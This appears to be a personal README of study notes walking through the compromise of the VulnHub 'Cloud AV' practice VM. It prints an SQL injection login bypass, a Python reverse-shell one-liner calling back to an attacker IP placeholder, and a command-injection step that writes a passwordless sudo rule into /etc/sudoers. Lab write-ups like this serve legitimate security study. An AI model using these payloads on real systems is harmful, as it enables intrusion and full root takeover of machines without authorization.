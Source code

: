 # vulnhub.com-study-notes 
This my personal note that shows the important steps/codes for compromising vm boxes


----------------------------------------------------------------------------------------------------------------------------------------

**1.Cloud Antivirus Scanner**

VM link is https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/

The web with port 8080 can be discover via nikto, do an SQL injection to login the web portal, someone online did an brute force, and find a invite code  "password"  

```
"or"1"="1
```
This code means (NOTHING) or 1=1.  And since 1 does equal 1, a true statement, we bypass this process. Credit to sevenlayers.com 
Then open a port on your kali with nc, nc -lvp 6666, and load the python reverse shell payload, (x.x.x.x needs to replace with your kali host ip)

```
bash|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
msfvenom also has reverse_python module that we can use for access the terminal. 

You are login, but you are still not root yet. locate the file update_cloudav, execute 
```
./update_cloudav '|echo "scanner ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' 
```
It will complete with error, but it is ok, use "sudo su" to access to root.  Job Done! 


----------------------------------------------------------------------------------------------------------------------------------------


